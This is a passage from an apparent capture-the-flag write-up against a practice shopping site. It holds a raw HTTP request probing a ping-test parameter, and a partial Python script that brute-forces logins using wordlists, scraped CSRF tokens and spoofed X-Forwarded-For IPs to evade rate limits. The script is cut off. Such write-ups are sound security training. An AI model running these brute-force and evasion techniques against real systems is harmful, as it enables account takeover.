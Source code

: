 OK there's flag no. 2 :)

The network test seems to be a ping against the Goggle DNS 8.8.8.8

```
POST /stats HTTP/1.1
Host: www.vulncommerce.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: http://www.vulncommerce.co.uk
Connection: close
Referer: http://www.vulncommerce.co.uk/stats?session_id=YzhiMjM2ZTBjMTMyNGFiOTZhYzExYTBjYjI3MDAxYzAxNGNiZjgxMmU1YzM0ZGY1ZWRkNDA1NDVmOTIyNDM0YjYyMGVlZmYxYTBkM2NlNWY2MjQzYTI5Mjg4ZDI4Y2I4NzBlMzhhYTU0ZTE5MDU5NTE0MWQ0NDIwMDljM2VjNTI=
Cookie: ctfchallenge=xxx; session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM%3D
Upgrade-Insecure-Requests: 1

ping_target=8.8.8.8
```

The page changes to include the message below after clicking the send test button

```
Target: 8.8.8.8
Result: PASS
```

Some potential use for later maybe? For example the other Google DNS 8.8.4.4 works as does 127.0.0.1, perhaps I might be able to use it....

OK let's try and focus on the login, I'm going to script this in python rather than using Burp.

Bit of playing and this script worked well for me in the end

```python
import requests
import random
from bs4 import BeautifulSoup

siteurl = "http://www.vulncommerce.co.uk/login?session_id=xxx"
ctfchallenge_cookie = {'ctfchallenge': 'xxx'}
burp_proxy = {'http': 'http://127.0.0.1:8080'}
usernames = '/usr/share/wordlists/ctfchallenge/usernames.txt'
passwords = '/usr/share/wordlists/ctfchallenge/passwords-large.txt'

def getCSRFToken():
    r = requests.get(siteurl, cookies=ctfchallenge_cookie, proxies=burp_proxy, headers= {'X-Forwarded-For': generateRandomIP()})
    html = BeautifulSoup(r.text, 'html.parser')
    return html.find('input', {'name':'csrf'}).attrs['value']

def findUsername():
    with open(usernames, 'r') as users:
        formData = {'login_username' : '{}', 'login_password': 'aaa'}
        return login(users, formData, "Username not recognised")

def findPassword(username):
    with open(passwords, 'r') as pwords:
        formData = {'login_username': username, 'login_password': '{}'}
        return login(pwords, formData, "Password incorrect for username")

def login(wordList, formData, failureText):
```
